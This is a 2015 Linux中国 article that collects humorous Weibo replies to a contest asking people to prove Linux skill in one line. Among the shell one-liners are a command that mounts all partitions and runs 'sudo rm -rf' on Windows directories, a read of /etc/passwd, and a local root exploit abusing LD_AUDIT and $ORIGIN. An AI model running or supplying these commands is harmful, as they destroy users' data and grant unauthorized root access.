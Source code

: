 ```yaml
---
creators:
  - Linux中国
title: 《一句话证明你懂linux》的有趣评论
date: 2015-01-26 11:43:00
date_updated: 2015-01-26 11:43:00
slug: article-4745-1.html
url: https://linux.cn/article-4745-1.html
url_from: ''
image: album/201501/26/114332oug6elcbqh8e9are.gif
tags:
  - linux
categories:
  - 活动
---
```


## Summary

> 上周，@Linux中国 和 @图灵教育 发起了一个活动：一句话证明你懂linux，引来了网友的踊跃参加。网友的智慧是无穷的，我们将其中的一些有趣的回答撷取出来分享给大家。 请关注稍后的中奖名单，欢迎继续吐槽~

***



## Contents

上周，[@Linux中国](http://weibo.com/n/Linux%E4%B8%AD%E5%9B%BD?from=feed&loc=at) 和 [@图灵教育](http://weibo.com/n/%E5%9B%BE%E7%81%B5%E6%95%99%E8%82%B2?from=feed&loc=at) 发起了一个活动：“[一句话证明你懂linux](http://weibo.com/1772191555/C0s1qqeYh)”，引来了网友的踊跃参加。网友的智慧是无穷的，我们将其中的一些有趣的回答撷取出来分享给大家。

`![](/data/attachment/album/201501/26/114332oug6elcbqh8e9are.gif)`

这里有秀命令的，果然不出所料，“rm -rf /”和 shell 炸弹是一定会出现的：

* @doublemark：cd mkdir rm 小白也能证明！
* @joeren1981：cat /etc/passwd | cut -d ':' -f 1 >>/root/userlist
* @love\_daisy\_love：mkdir ~/tmp; sudo fdisk -l | grep ^\/dev | grep -v swap | awk '{print $1}' | xargs -i sh -c "sudo mount {} ~/tmp; sudo rm -rf ~/tmp/Windows; sudo umount tmp"
* @进击的Manu\_coder：echo "tvir zr gurfr obbxf, gunax lbh" | tr [n-za-m] [a-z]
* @赍思潜行：:w !sudo tee % 偷凤转龙的vi命令
* @Seamile：for i in $'\111' $'\114\157\166\145' $'\114\151\156\165\170';do c=$((($RANDOM)%6+31));printf '\033[0;%sm%s \033[0m' $c $i;done
* @M\_四月天：ruby -e 'require "date"; puts DateTime.now.cweek' 你们知道今天是第几周么？[嘻嘻]
* @灰色的小翅膀飞啊飞：mkdir /tmp/exploit ln /bin/ping /tmp/exploit/target exec 999< /tmp/exploit/target rm -rf /tmp/exploit/ echo 'void \_\_attribute\_\_((constructor)) init(){setuid(0);system('/bin/bash');}' | gcc -w -fPIC -shared -o /tmp/exploit -xc - LD\_AUDIT='\$ORIGIN' ～～～got r00t...
* @hunterwan：kexec -l /mnt/$DEV/boot/uImage --append="console=ttyS0,38400 earlyprintk=ttyS0 root=/dev/ram0 rw initrc=myrc" --ramdisk=/mnt/$DEV/myramdisk.gz

也有炫知识的，我只能说，炫的好！
